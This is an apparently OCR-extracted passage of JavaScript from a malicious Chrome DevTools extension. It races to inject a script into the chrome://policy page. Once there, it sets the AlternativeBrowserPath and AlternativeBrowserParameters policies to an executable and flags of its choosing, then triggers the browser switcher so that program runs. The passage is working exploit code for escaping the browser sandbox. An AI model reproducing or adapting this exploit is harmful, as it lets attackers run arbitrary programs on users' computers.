 ```
        }, 
        { //set the executable path to launch
          name: "AlternativeBrowserPath",
          value: ${JSON.stringify(executable)},
          level: 1,
          source: 1,
          scope: 1
        }, 
        { //set the arguments for the executable
          name: "AlternativeBrowserParameters",
          value: ${JSON.stringify(flags)},
          level: 1,
          source: 1,
          scope: 1
        }
      ]);

      //set the policies listed above
      await cr.sendWithPromise("setLocalTestPolicies", policy, "");

      setTimeout(() => {
        //navigate to example.com, which will trigger the browser switcher
        location.href = "https://example.com";

        //open a new page so that there is still a tab remaining after this
        open("about:blank");  
      }, 100);
    })()`
  });
}

//interval to keep trying to inject the content script
//there's a tiny window of time in which the content script will be
//injected into a protected page, so this needs to run frequently
function start_interval() {
  setInterval(() => {
    //loop to increase our odds
    for (let i=0; i<3; i++) {
      inject_script(); 
    }
  }, 0);  
}

async function main() {
  //start the interval to inject the content script
  start_interval();

  //navigate the inspected page to chrome://policy
  let tab = await chrome.tabs.get(chrome.devtools.inspectedWindow.tabId);
  await chrome.tabs.update(tab.id, {url: "chrome://policy"});

  //if this times out we need to retry or abort
  await new Promise((resolve) => {setTimeout(resolve, 1000)});
  let new_tab = await chrome.tabs.get(tab.id);

  //if we're on the policy page, the content script didn't get injected
  if (new_tab.url.startsWith("chrome://policy")) {
    //navigate back to the original page
    await chrome.tabs.update(tab.id, {url: tab.url});

    //discarding and reloading the tab will close devtools
    setTimeout(() => {
      chrome.tabs.discard(tab.id);
```